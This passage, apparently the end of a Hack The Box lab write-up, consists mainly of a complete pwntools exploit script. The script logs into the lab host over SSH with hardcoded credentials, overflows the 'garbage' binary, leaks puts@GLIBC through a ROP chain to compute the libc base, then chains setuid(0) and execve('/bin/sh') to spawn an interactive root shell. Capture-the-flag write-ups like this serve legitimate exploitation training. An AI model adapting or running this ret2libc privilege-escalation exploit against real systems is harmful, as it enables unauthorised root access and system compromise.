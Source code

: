 
:dancer:

## Afterthought

Because I'm always challenging myself, let's write another exploit that will give us an interactive `root` shell instead.

```python
from pwn import *
import binascii

context(terminal=["tmux", "new-windows"])
context(os="linux", arch="amd64")

s = ssh(host="10.10.10.139", user="margo", password="iamgod$08")
p = s.process("garbage")

junk = 'A' * 136

plt_main = p64(0x401619)
plt_puts = p64(0x401050)
got_puts = p64(0x404028)
pop_rdi  = p64(0x40179b)
pop_rsi  = p64(0x401799)

payload = junk + pop_rdi + got_puts + plt_puts + plt_main

p.sendline(payload)
p.recvuntil("access denied.")
leaked_puts = p.recv()[:8].strip().ljust(8, "\x00")
log.success("Leaked puts@GLIBC:  " + "0x" + binascii.hexlify(leaked_puts).decode("hex")[::-1].encode("hex"))
leaked_puts = u64(leaked_puts)

off_puts = 0x809c0
off_sys  = 0x4f440
off_exe  = 0xe4fa0
off_sh   = 0x1b3e9a
off_suid = 0xe5970

base_libc = leaked_puts - off_puts
log.success("GLIBC base address: " + "0x" + binascii.hexlify(p64(base_libc)).decode("hex")[::-1].encode("hex"))

libc_exe  = p64(base_libc + off_exe)
libc_sys  = p64(base_libc + off_sys)
libc_sh   = p64(base_libc + off_sh)
libc_suid = p64(base_libc + off_suid)

payload = junk + pop_rdi + p64(0) + libc_suid + pop_rdi + libc_sh + pop_rsi + p64(0) + p64(0xdeadbeef) + libc_exe

p.sendline(payload)
p.recvuntil("access denied.")
log.success("Enjoy your shell!")
p.interactive()
```

{% include image.html image_alt="24f133ef.png" image_src="/3b69ee97-9d1e-43c2-935c-5b942b3d7310/24f133ef.png" %}


[1]: https://www.hackthebox.eu/home/machines/profile/189
[2]: https://www.hackthebox.eu/home/users/profile/30224
[3]: https://www.hackthebox.eu/
